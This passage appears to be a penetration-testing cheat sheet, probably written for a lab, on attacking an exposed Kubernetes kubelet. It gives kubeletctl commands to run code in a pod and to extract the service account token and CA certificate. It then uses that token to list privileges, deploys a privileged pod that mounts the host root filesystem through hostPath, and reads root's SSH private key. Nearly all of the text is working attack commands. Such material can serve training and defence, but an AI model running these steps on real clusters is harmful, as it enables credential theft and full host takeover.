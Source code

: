 - Execute commands

  ```bash
  kubeletctl -i --server <IP> exec "id" -p nginx -c nginx
  ```

- Gain acces

  ```bash
  # Extract token
  kubeletctl -i --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
  
  # Extract certificate
  kubeletctl --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
  
  # List privileges
  export token=`cat k8.token`
  ubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 auth can-i --list
  ```

  Given the privileges:

  - **Create**: create a pod &rarr; create a `YAML` file  to create a new container and mount the entire root filesystem

    ```yaml
    apiVersion: v1
    kind: Pod
    metadata:
      name: privesc
      namespace: default
    spec:
      containers:
      - name: privesc
        image: nginx:1.14.2
        volumeMounts:
        - mountPath: /root
          name: mount-root-into-mnt
      volumes:
      - name: mount-root-into-mnt
        hostPath:
           path: /
      automountServiceAccountToken: true
      hostNetwork: true
    ```

    Create the POD with the file:

    ```bash
    kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 apply -f privesc.yaml
    # Check if running
    kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
    # Run commands
    kubeletctl --server <IP> exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
    ```
